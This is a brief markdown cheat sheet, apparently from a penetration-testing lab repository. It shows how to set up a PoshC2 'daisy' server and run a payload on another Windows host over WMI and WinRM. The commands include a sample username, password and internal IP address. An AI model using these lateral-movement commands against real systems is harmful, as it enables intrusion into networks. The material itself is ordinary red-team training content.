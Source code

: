 ### Creating daisy chain using PoshC2

#### Starting a Daisy server
- ```startdaisy```
#### Invoking Daisy payload via WMI
- ```pslo Invoke-wmiexec.ps1```
- ```sharpps Invoke-WMIExec -user webadmin.ind01 -pass P@ssw0rd1 -target 192.168.3.18 -Command "/var/poshc2/ptadlab/payloads/testpayload.bat“```
#### Invoking Daisy payload via WinRM
- ```sharpps Invoke-Command -ScriptBlock {<daisy payload>} -computer ptadlabwin8-64```
![image](https://user-images.githubusercontent.com/40358371/120167462-663b4d00-c21b-11eb-8cbd-0ebefdd48bef.png)
